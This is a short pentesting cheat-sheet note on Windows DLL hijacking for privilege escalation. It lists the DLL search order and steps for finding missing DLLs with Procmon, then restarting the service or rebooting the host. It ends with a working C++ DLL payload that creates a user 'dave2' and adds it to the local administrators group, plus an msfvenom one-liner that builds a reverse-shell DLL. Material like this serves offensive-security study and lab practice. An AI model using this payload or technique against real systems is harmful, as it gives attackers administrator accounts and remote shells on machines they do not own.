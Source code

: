 
Search order in the safe DLL search mode, activated by default:
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.

#### Technique:
1. Copy the binary to a local machine
2. Run Procmon64 (requires admin, therefore the copy)
3. Set a filter to `Process Name is example.exe`
4. Run binary
5. Look for `CreateFile` calls in the `Operation` column
6. If the `Details` column says `Name not found`, look whether one of those directories is writeable for us on the actual target. In that case, we can just create a DLL in this path. Otherwise, we could look whether we have write permissions on some of the successfully called DLLs.
7. Restart the service. If we don't have the permission but we can restart the host (`whoami /priv`) and the service has the `StartMode` set to `Auto` (see [[2_loot-privEsc_Windows_Manually]]), we could restart the whole machine (`reboot /r /t 0`).

#### Example payload
Compile with the `--shared` flag, as shown in [[8_crosscompile2windows_guide]].
```c++
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
Or even simpler: `msfvenom -p windows/shell_reverse_tcp lhost='127.0.0.1' lport='9988' -f dll > evil.dll`